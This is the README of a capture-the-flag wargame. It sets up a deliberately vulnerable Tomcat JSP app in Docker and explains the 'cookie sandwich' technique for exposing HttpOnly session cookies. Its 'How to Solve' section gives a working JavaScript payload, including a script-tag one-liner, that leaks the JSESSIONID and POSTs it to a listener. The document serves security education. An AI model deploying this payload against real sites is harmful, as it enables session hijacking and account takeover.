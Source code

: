 ## 🚀 Overview
Here's my [Blog](https://blog.fooo1.com/cookie-sandwich-attack) :)

Modern browsers and servers usually follow **RFC6265** for cookie parsing—treating quotes as literal characters—while some legacy-compatible servers (e.g. Tomcat) will switch to **RFC2109/2965** parsing when they detect a `$Version` cookie.  
This challenge lets you:
1. Spin up a small, vulnerable JSP app in Docker  
2. Craft a “cookie sandwich” via JavaScript  
3. Leak a JSESSIONID(HttpOnly) cookie and post it back to the attacker bot  
4. Capture the flag! 🎉

## 📖 Background

- **RFC2109/2965 (Legacy)**  
  - Recognizes `$Version`, `$Path`, `$Domain` attributes  
  - Treats quoted values as one continuous string  
- **RFC6265 (Modern)**  
  - Delivers stricter parsing: semicolons always break name/value pairs  
  - Quotes are part of the value  

Tomcat’s dual-mode support means that by creating:
```js
document.cookie = '$Version=1; path=/json.jsp;';
document.cookie = 'param1="start; path=/json.jsp;';
document.cookie = 'param2=end"; path=/;';
```
the **legacy** parser will see:

```
param1="start;JSESSIONID=<secret>;param2=end"
```

…letting you read an HttpOnly session cookie!


## 🛠️ Setup & Run

1. **Clone this repo**
   ```bash
   git clone https://github.com/your-org/cookie-sandwich-wargame.git
   cd cookie-sandwich-wargame
   ```

2. **Set your secrets**  
   Create a `.env` in the repo root:
   ```ini
   ADMIN_PASSWORD=supersecret
   FLAG=CTF{you_sandwiched_them}
   ```

3. **Launch with Docker Compose**
   ```bash
   docker-compose up --build
   ```
   - **Tomcat** runs on `http://localhost:8080/`
   - **Bot server** (listener) runs on `http://localhost:8000/`

4. **Visit the challenge page**  
   Navigate to `http://localhost:8080/test.jsp` (or whichever front-end you provide).


## 💡 How to Solve

1. Trigger an XSS (or paste code in your browser console) on the test page.
2. Execute the cookie-sandwich payload:
   ```js
   document.cookie = '$Version=1; path=/json.jsp;';
   document.cookie = 'param1="start; path=/json.jsp;';
   document.cookie = 'param2=end"; path=/;';
   fetch('/json.jsp', { credentials: 'include' })
     .then(r => r.json())
     .then(data => {
       fetch('http://localhost:8000/', {
         method: 'POST',
         body: JSON.stringify(data)
       });
     });
   ```
3. The bot service will receive your leaked `session` value—check its logs (or UI) for the flag.

For a minimal one-liner (no whitespace):
```html
<script>document.cookie='$Version=1; path=/json.jsp;';document.cookie='param1="start; path=/json.jsp;';document.cookie='param2=end"; path=/;';fetch('/json.jsp',{credentials:'include'}).then(r=>r.json()).then(d=>fetch('http://localhost:8000/',{method:'POST',body:JSON.stringify(d)}));</script>
```


## 🔧 Challenge Files

- **`docker-compose.yml`** – Orchestrates two services:  
  - **`tomcat`** (vulnerable JSP app)  
  - **`bot`** (Flask+Selenium listener)
- **`tomcat/json.jsp`** – Returns the first non-JSESSIONID cookie value in JSON.
- **`flag.jsp`** (optional) – Protected page that requires a valid session.
- **`bot/`** – Contains the admin bot Dockerfile and listener code to capture your submission.


## 📝 References

- [PortSwigger: Stealing HttpOnly Cookies with the Cookie Sandwich Technique](https://portswigger.net/research/cookie-sandwich)  
- [SnoopBees Blog: HTTP Cookie Sandwich Attack](https://snoopbees.com/blog/http-cookie-sandwich-attack)  
